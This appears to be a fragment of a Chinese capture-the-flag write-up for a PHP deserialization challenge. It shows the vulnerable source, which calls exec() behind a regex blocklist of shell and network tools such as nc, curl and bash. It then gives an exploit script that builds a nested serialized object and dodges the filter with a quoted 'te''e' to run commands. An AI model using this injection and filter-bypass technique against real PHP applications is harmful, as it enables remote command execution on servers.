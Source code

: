 不知道为什么出不来，过一会放在本地跑跑

![image-20231208100000302](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231208100000302.png)

ok，没有问题



## R!!!C!!!E!!!

纸老虎，没有过滤引号，可以转义

```php
 <?php
highlight_file(__FILE__);
class minipop{
    public $code;
    public $qwejaskdjnlka;
    public function __toString()
    {
        if(!preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $this->code)){
            exec($this->code);
        }
        return "alright";
    }
    public function __destruct()
    {
        echo $this->qwejaskdjnlka;
    }
}
if(isset($_POST['payload'])){
    //wanna try?
    unserialize($_POST['payload']);
} 
```

exp如下：

```php
<?php
class minipop{
    public $code = "ls | te''e /var/www/html/1";
    public $qwejaskdjnlka;
    public function __toString()
    {
        if(!preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $this->code)){
            exec($this->code);
        }
        return "alright";
    }
    public function __destruct()
    {
        echo $this->qwejaskdjnlka;
    }
}
$a = new minipop();
$b = new minipop();
$b->qwejaskdjnlka = "test";
$a->qwejaskdjnlka = $b;
echo(serialize($a));
?>
```
